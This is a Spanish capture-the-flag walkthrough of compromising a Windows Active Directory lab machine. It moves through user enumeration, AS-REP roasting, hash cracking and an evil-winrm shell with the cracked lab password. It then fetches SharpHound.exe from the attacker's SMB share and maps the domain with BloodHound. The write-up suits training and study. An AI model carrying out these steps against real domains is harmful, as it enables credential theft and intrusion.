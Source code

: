 ## (Enumerar usuarios válidos con enum4linux, comprobar usuarios que no usen Kerberos con GetNPUsers, listar recursos compartidos con crackmapexec y evilwinrm para obtener reverse shell - Active Directory)

Haremos los reconocimientos de siempre:
![[Pasted image 20230126111303.png]]
Ya que es una máquina Windows, debemos enumerar con crackmapexec qué máquina es y qué windows tiene instalado, el cual se trata de un Windows Server 2016: [[Crackmapexec#Detectar dominio y hostname con crackmapexec]]
![[Pasted image 20230126111311.png]]
Intentamos listar los recursos compartidos con una null session de esta máquina pero no sale nada:
![[Pasted image 20230126111320.png]]
Lo que podemos hacer es intentar enumerar usuarios válidos haciendo uso de la herramienta enum4linux:
![[Pasted image 20230126112406.png]]
![[Pasted image 20230126112436.png]]
Ahora que tenemos todos estos usuarios, vamos a guardarlos todos en un documento para poder usarlos como ataque de fuerza bruta, esto podemos hacerlo a través de expresiones regulares en bash o copiando y pegando cada usuario:
![[Pasted image 20230126113248.png]]
Y lo guardamos dentro del documento users:
![[Pasted image 20230126113324.png]]
Ahora que tenemos este listado de usuarios, hay una herramienta que se llama GetNPusers de impacket que sirve para obtener Ticket Granting Ticket (TGT) de credenciales de aquellos usuarios que no requieren autenticación Kerberos; por tanto debemos pasarle el dominio y el diccionario con los usuarios, y vemos que nos encuentra un hash de uno de los usuarios:
![[Pasted image 20230126114019.png]]
Ahora guardamos este hash en un documento de texto y con john intentamos deshashearla con un ataque de fuerza bruta utilizando el diccionario rockyou.txt:
![[Pasted image 20230126111407.png]]
Y tras ejecutar este comando, obtenemos una contraseña, la cual es s3rvice:
![[Pasted image 20230126114314.png]]
Ahora con crackmapexec podemos validar si estas credenciales son válidas, las cuales vemos que sí:[[Crackmapexec#Comprobar y validar credenciales con crackmapexec]]
![[Pasted image 20230126111426.png]]
Y con estas credenciales ya podemos listar recursos compartidos y los permisos que tenemos:[[Crackmapexec#Listar recursos compartidos con crackmapexec]]
![[Pasted image 20230126111434.png]]
Y ahora podemos ver si este usuario forma parte del grupo win managament users:
![[Pasted image 20230126111442.png]]
Ahora con toda esta información ya podemos ganar una consola interactiva utilizando las credenciales de este usuario utilizando evil-winrm:
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![[Pasted image 20230126111450.png]]
Y navegando por los directorios, obtenemos la flag:
![[Pasted image 20230126111458.png]]
Podemos conocer detalles sobre este usuario con el comando net user svc-alfresco:
![[Pasted image 20230130110201.png]]
Ahora para escalar los privilegios podemos utilizar una herramienta llamada bloodhound que nos va a recopilar mucha información acerca del Active Directory de la víctima, por lo que en Kali Linux ya lo tenemos en este directorio:
![[Pasted image 20231123180300.png]]
Y nos lo compartimos con la máquina víctima a través de samba:
![[Pasted image 20231123180423.png]]
Y desde la máquina víctima nos lo recibimos:
```
copy \\10.10.16.6\recurso\SharpHound.exe SharpHound.exe
```
![[Pasted image 20231123180550.png]]
Y ahora ejecutamos el SharpHopund.exe y nos habrá generado un archivo zip:
![[Pasted image 20231123180800.png]]
![[Pasted image 20231123180824.png]]
Y ahora para bajarnos este comprimido, ejecutamos el siguiente comando que nos va a permitir descargar archivos desde Evil-WinRM:
```javascript
download C:\Users\svc-alfresco\Desktop\20231123091422_BloodHound.zip data.zip
```
![[Pasted image 20231123181018.png]]
![[Pasted image 20231123181031.png]]
Y ahora tenemos que arrancar el neo4j console, que será lo que haga funcionar a bloodhound, por tanto ejecutamos el comando `neo4j console`
![[Pasted image 20231123181511.png]]
Y a continuación tenemos que acceder al puerto 7687 para establecer unas credenciales y abrir bloodhound:
```
http://localhost:7474/browser/
```
![[Pasted image 20231123182143.png]]
Aquí nos autenticamos con las credenciales por defecto las cuales son neo4j y neo4j y al darle a connect nos pedirá configurar unas nuevas credenciales:
![[Pasted image 20231123182308.png]]
A continuación, abrimos la app de bloodhound y nos autenticamos con estas nuevas credenciales:
![[Pasted image 20231123182740.png]]
Y una vez dentro le cargamos toda la data que hemos obtenido anteriormente desde la máquina víctima:
![[Pasted image 20231123182913.png]]
En la parte de arriba ponemos el usuario que hemos comprometido:
![[Pasted image 20231123183448.png]]
Y marcamos como pwned este usuario:
![[Pasted image 20231123183429.png]]
Y se nos muestra todo el mapa del AD:
![[Pasted image 20231123184137.png]]
